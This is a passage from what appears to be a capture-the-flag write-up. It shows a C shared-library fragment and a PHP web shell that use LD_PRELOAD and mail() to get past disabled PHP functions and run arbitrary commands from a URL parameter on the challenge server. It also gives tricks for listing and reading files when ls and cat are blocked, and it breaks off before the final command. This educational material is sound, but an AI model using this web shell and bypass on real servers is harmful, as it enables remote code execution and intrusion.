 ```c
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

Uploading it with *homework* app, uploader form
gives the path e.g. `upload/2016060600908-evil.so`

And the other part is the
[PHP script](exploit/payload.php),
which triggers the payload by setting `LD_PRELOAD` and
executing `sendmail` by calling `mail()`:

```php
<?php

$r1 = putenv("LD_PRELOAD=./20160606000908-evil.so");
echo "putenv: $r1 <br>";

$cmd = $_GET['cmd'];
$r2 = putenv("_evilcmd=$cmd");
echo "putenv: $r2 <br>";

$r3 = mail("a@example.com", "", "", "");
echo "mail: $r3 <br>";

show_source("/tmp/_0utput.txt");

?>
```

This should be deployed by the above OPcache exploit.

Once ready, we should be able to execute arbitrary
system commands on the remote system by calling:

```
http://121.40.50.146/upload/20160606001836-payload.php?cmd=echo ok
```

This one displays `ok`, so the exploit seems to be working.
Now we can experiment with system commands, unfortunately a lot of
them are disabled even at this level. Of course we can
implement anything without calling system commands with
a custom shared library, but we can solve the challenge by
finding smart command lines.

Even `ls` is disabled, we can list files by using `printf`
and `*` (wildcard): `printf "%s\n" /*` lists the files in root
(remember, listing files and even accessing `/` was restricted
by PHP).
There is an entry `/flag_is_H3r3_sir`, so it would be nice
to get the contents. The command `cat` is also disabled,
but the command `tac` (print lines as `cat`, but in reverse order)
is allowed. So the solution is:
